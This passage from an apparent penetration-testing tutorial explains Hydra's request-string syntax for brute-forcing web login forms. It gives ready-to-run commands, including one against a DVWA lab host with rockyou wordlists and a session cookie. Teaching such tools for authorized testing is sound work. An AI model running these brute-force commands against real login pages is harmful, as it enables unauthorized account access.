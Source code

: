 and after this a string we specify the "request string" which will contain the
following elements separated by a colon `:`:
* pageOnWhichTheLoginHappens
* list of parameters, here we have to specify with ^USER^ and ^PASS^ where
    usernames and passwords will be inserted
* a character which may be F (for failing strings) or S for successful strings
    followed by an equal sign `=` and a string which appears in a failed attempt
    or in a successful attempt, if we do not specify F or S, F is the default
    also because this is the more natural option, we generally know which
    strings will appear when we fail a login but not the ones which will appear
    when it is successful (unless we are dealing with a known web
    technology/framework).
    Let's see some examples, We can specify a failure string with `:F=mystringincaseoffailure`
    while we can specify a success string with `:S=mystringincaseofsuccess`.
    But we may also see online `:mystring` and it will be the equivalent of
    `:F=mystring`


Let's see some warmup examples:

```sh
hydra -l admin -P pass.txt https://url.com https-post-form "index.php:param1=value123&user=^USER^&pass=^PASS^:F=Bad login"
 # in this example we are in an https post form situation, 
 # as we may notice as request line we have the following structure
 # page:parameters:F=message_to_show_in_case_of_failure
```

```sh
hydra -l admin -P pass.txt https://url.com https-post-form "index.php:param1=value123&user=^USER^&pass=^PASS^:S=Success!!"
 # in this example we are in an https post form situation, 
 # as we may notice as request line we have the following structure
 # page:parameters:S=message_to_show_in_case_of_failure
```


### HTTP Get Login Forms

```sh
hydra -l admin -P /root/Desktop/wordlists/test.txt http://www.website.com \
http-get-form "/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."
```

```sh
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
"/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```




### HTTP Post Login Forms
